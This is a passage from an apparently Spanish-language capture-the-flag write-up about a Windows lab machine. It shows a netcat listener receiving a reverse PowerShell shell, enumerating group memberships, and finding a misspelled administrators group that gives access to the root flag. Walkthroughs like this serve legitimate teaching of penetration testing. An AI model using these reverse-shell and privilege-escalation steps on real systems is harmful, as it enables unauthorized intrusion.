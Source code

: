   Si bien recordamos, anteriormente nos pusimos en escucha por el 4444 con **nc -nlvp**, si nos dirigimos a la terminal vemos que tenemos acceso al usuario **akanksha** y podemos listar los grupos a los cuales pertenece dicho usuario

  ```ruby
    nc -nlvp 4444
      listening on [any] 4444 ...
      connect to [192.168.56.101] from (UNKNOWN) [192.168.56.102] 49775
      Windows PowerShell
      Copyright (C) Microsoft Corporation. Todos los derechos reservados.


      PS C:\Windows\system32> whoami /groups
      whoami /groups

      INFORMACION DE GRUPO
      --------------------

      Nombre de grupo                              Tipo           SID                                            Atributos
      ============================================ ============== ============================================== ========================================================================
      Todos                                        Grupo conocido S-1-1-0                                        Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
      WIN-IURF14RBVGV\Idministritirs               Alias          S-1-5-21-2519875556-2276787807-2868128514-1002 Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
      BUILTIN\Usuarios                             Alias          S-1-5-32-545                                   Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
      NT AUTHORITY\INTERACTIVE                     Grupo conocido S-1-5-4                                        Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
      INICIO DE SESION EN LA CONSOLA               Grupo conocido S-1-2-1                                        Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
      NT AUTHORITY\Usuarios autentificados         Grupo conocido S-1-5-11                                       Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
      NT AUTHORITY\Esta compañia                   Grupo conocido S-1-5-15                                       Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
      NT AUTHORITY\Cuenta local                    Grupo conocido S-1-5-113                                      Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
      NT AUTHORITY\AutenticaciOn NTLM              Grupo conocido S-1-5-64-10                                    Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
      Etiqueta obligatoria\Nivel obligatorio medio Etiqueta       S-1-16-8192
      PS C:\Windows\system32>

  ```

  Vemos diferentes grupos pero el que Nos llama más la atención es  ``WIN-IURF14RBVGV\Idministritirs Alias S-1-5-21-2519875556-2276787807-2868128514-1002 Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado`` es el grupo de administradores. Aunque está mal escrito, tiene los mismos permisos que el grupo de administradores de Windows.

  Lo cual nos permitiria entrar en la carpeta del Administrador y ver la flag de root

  ```ruby
  PS C:\Windows\system32> cd C:\Users\Administrador\
    root.txt
  ```
